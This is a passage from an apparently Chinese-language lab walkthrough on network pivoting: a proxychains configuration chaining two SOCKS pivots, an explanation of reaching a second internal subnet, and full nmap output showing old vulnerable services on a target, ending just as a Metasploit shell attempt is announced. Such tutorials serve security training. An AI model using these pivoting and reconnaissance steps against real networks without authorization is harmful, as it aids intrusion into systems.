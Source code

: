 <pre class="brush:bash;toolbar:false" nodeIndex="128">
root@kali:~# cat /etc/proxychains.conf | grep -v "#"dynamic_chainproxy_dns tcp_read_time_out 15000tcp_connect_time_out 8000socks4  172.16.0.20 1080  # First Pivotsocks4  172.16.0.20 1081  # Second Pivot
</pre>
<p nodeIndex="129"><span nodeIndex="274">上面的两个代理相当于扇门的钥匙,172.16.0.20:1080是7.7.7.x的钥匙,172.16.0.20:1081是7.7.7.x后面的8.8.8.x的钥匙 ,Attacker要想访问到8.8.8.x可以通过先打开7.7.7.x的门,再打开8.8.8.x的门(因为8.8.8.x这个门在7.7.7.x这个门之后)</span></p>
<p nodeIndex="130"><span nodeIndex="275">使用Attacker本地的nmap扫描下8.8.8.x网段:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="131">
root@kali:~# proxychains nmap -sT -sV -p21,22,23,80 8.8.8.9 -n -Pn -vvProxyChains-3.1 (http://proxychains.sf.net)Starting Nmap 7.25BETA1 ( https://nmap.org )Nmap wishes you a merry Christmas! Specify -sX for Xmas Scan (https://nmap.org/book/man-port-scanning-techniques.html).NSE: Loaded 36 scripts for scanning.
Initiating Connect Scan
Scanning 8.8.8.9 [4 ports]
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:21-<><>-OK
Discovered open port 21/tcp on 8.8.8.9|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:23-<><>-OK
Discovered open port 23/tcp on 8.8.8.9|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:22-<><>-OK
Discovered open port 22/tcp on 8.8.8.9|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:80-<><>-OK
Discovered open port 80/tcp on 8.8.8.9Completed Connect Scan at 05:54, 1.37s elapsed (4 total ports)Initiating Service scan at 05:54
Scanning 4 services on 8.8.8.9
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:21-<><>-OK
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:22-<><>-OK
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:23-<><>-OK
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:80-<><>-OK
Completed Service scan at 05:54, 11.09s elapsed (4 services on 1 host)NSE: Script scanning 8.8.8.9.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:54
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:80-<><>-OK
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:80-<><>-OK
Completed NSE at 05:54, 1.71s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:54
Completed NSE at 05:54, 0.00s elapsed
Nmap scan report for 8.8.8.9
Host is up, received user-set (0.41s latency).
Scanned 
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 2.3.4
22/tcp open  ssh     syn-ack OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)23/tcp open  telnet  syn-ack Linux telnetd
80/tcp open  http    syn-ack Apache httpd 2.2.8 ((Ubuntu) DAV/2)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 14.59 seconds
root@kali:~#
</pre>
<p nodeIndex="132"><span nodeIndex="276">发现8.8.8.9(SK)这台机器可能有漏洞,用msf模块尝试getshell:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="133">